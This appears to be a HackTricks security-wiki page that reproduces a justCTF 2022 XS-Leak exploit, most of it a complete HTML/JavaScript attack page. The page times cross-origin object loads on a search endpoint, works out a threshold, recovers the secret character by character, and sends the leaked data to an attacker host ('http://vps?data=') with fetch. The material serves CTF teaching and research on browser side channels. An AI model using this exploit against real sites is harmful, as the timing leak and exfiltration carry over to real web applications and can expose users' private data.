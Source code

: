 # performance.now + Force heavy task

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

{% hint style="warning" %}
Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.
{% endhint %}

```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```



<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

